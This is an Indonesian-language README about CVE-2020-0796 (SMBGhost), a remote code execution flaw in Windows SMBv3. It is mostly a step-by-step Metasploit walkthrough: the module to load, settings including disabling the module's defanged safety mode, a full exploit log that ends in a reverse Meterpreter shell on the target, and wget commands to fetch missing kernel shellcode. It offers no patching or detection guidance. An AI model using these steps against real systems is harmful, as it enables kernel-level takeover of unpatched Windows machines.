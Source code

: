 # CVE-2020-0796

## A. Apa itu CVE-2020-0796?

[CVE-2020-0796](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2020-0796), juga dikenal sebagai SMBGhost, adalah kerentanan Remote Code Execution (RCE) dalam `SMBv3` (Server Message Block versi 3) yang ditemukan pada Windows 10 dan Windows Server versi `1903` dan `1909`.

Kerentanan ini memungkinkan penyerang jarak jauh untuk mengeksekusi kode arbitrer pada sistem target hanya dengan mengirimkan paket `SMBv3` yang dibuat khusus. Dalam kondisi tertentu, kerentanan ini juga bisa dimanfaatkan untuk Local Privilege Escalation (LPE).

## B. Detail Teknis:
- CVE ID: `CVE-2020-0796`
- Tanggal Rilis: `10 Maret 2020`
- Tipe: Remote Code Execution (RCE) + Local Privilege Escalation (LPE)
- Protokol: `SMBv3`
- Komponen: `srv2.sys`
- Platform: `Windows 10` / `Server 1903` & `1909`
- Arsitektur: `x86` dan `x64`
- Skor CVSS: `10.0` (Kritis)

## C. Sistem yang Rentan

Untuk melihat semua sistem yang rentan terhadap `CVE-2020-0796`, anda bisa melihatnya di dokumentasi resmi Microsoft: [https://msrc.microsoft.com/update-guide/vulnerability/CVE-2020-0796](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2020-0796)

## D. Langkah Penggunaan di Metasploit:

1. Jalankan Metasploit:

   ```
   msfconsole
   ```

2. Gunakan Modul Exploit CVE-2020-0796:

   ```
   msf6 > use exploit/windows/smb/cve_2020_0796_smbghost
   ```

3. Setting Parameter Penting:

   ```
   msf6 > set PAYLOAD <PAYLOAD>
   msf6 > set RHOSTS <IP_ATTACKER>
   msf6 > set RPORT 445
   msf6 > set DefangedMode false
   msf6 > set TARGET <ID>
   msf6 > set VERBOSE true
   ```

   > Untuk ID target bisa dilihat dengan:

   ```
   msf6 > show targets
   ```
   
4. Jalankan Exploit:

   ```
   msf6 > exploit
   ```

   Jika hasil output-nya seperti ini:

   ```
   [*] Started reverse TCP handler on 192.168.1.42:4444 
   [*] 192.168.1.51:445 - Running automatic check ("set AutoCheck false" to disable)
   [!] 192.168.1.51:445 - The service is running, but could not be validated.
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000013000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000001000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000002000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000003000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000004000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000005000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000006000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000007000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000008000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000009000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x000000000000a000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x000000000000b000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x000000000000c000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x000000000000d000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x000000000000e000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x000000000000f000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000010000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000011000
   [*] 192.168.1.51:445 - Found low stub at physical address 0x0000000000011000, virtual address 0xfffff79e8000e000
   [*] 192.168.1.51:445 - Found PML4 at 0x00000000001aa000 (BIOS)
   [*] 192.168.1.51:445 - Found HAL heap at 0xfffff79e80000000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x00000000001aa000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x00000000001aa200
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x00000000001aa400
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x00000000001aa600
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x00000000001aa800
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x00000000001aaa00
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x00000000001aac00
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x00000000001aae00
   [*] 192.168.1.51:445 - Found PML4 self-reference entry at 0x01c9
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x00000000001aaf78
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x00000000041003d0
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000004103000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000004104000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000001200
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000001400
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000001600
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000001800
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000001a00
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000001c00
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000001e00
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000004104008
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000005200
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000005400
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x00000000000054c0
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x00000000001aaf80
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000004308068
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000004309210
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x000000000255ebb0
   [*] 192.168.1.51:445 - Found hal!HalpInterruptController at 0xfffff79e80001448
   [*] 192.168.1.51:445 - Found hal!HalpApicRequestInterrupt at 0xfffff8034855ebb0
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x00000000001aae48
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000004100000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000004101000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000004102000
   [*] 192.168.1.51:445 - KUSER_SHARED_DATA PTE NX bit cleared!
   [*] 192.168.1.51:445 - Transferring 1274 bytes of shellcode...
   [*] 192.168.1.51:445 - Transfer complete, hooking hal!HalpApicRequestInterrupt to trigger execution...
   [*] Sending stage (203846 bytes) to 192.168.1.51
   [*] Meterpreter session 26 opened (192.168.1.42:4444 -> 192.168.1.51:49672) at 2025-05-14 22:17:01 +0700
   [*] 192.168.1.51:445 - Restoring the KUSER_SHARED_DATA PTE NX bit...
   [*] 192.168.1.51:445 - Cleaning up the contents of KUSER_SHARED_DATA...

   meterpreter > 
   ```

   Itu artinya kita sudah berhasil mengeksploitasi mesin terget.

## Tips Tambahan

Jika pada saat proses eksplotasi muncul error seperti ini:

```
[-] 192.168.1.51:445 - Exploit failed: Errno::ENOENT No such file or directory @ rb_sysopen - /usr/share/metasploit-framework/external/source/exploits/CVE-2020-0796/RCE/kernel_shellcode.asm
[*] 192.168.1.51:445 - Restoring the KUSER_SHARED_DATA PTE NX bit...
[*] 192.168.1.51:445 - Cleaning up the contents of KUSER_SHARED_DATA...
[*] Exploit completed, but no session was created.
msf6 exploit(windows/smb/cve_2020_0796_smbghost) >
```

Itu artinya file `kernel_shellcode.asm` tidak ada di direktori `/usr/share/metasploit-framework/external/source/exploits/CVE-2020-0796/RCE/`.

Untuk mengatasi error itu ketikkan perintah ini:

```
cd /usr/share/metasploit-framework
mkdir -p external/source/exploits/CVE-2020-0796/RCE/
wget https://raw.githubusercontent.com/rapid7/metasploit-framework/refs/heads/master/external/source/exploits/CVE-2020-0796/RCE/kernel_shellcode.asm
```

Jika sudah jalankan exploit lagi:

```
exploit
```
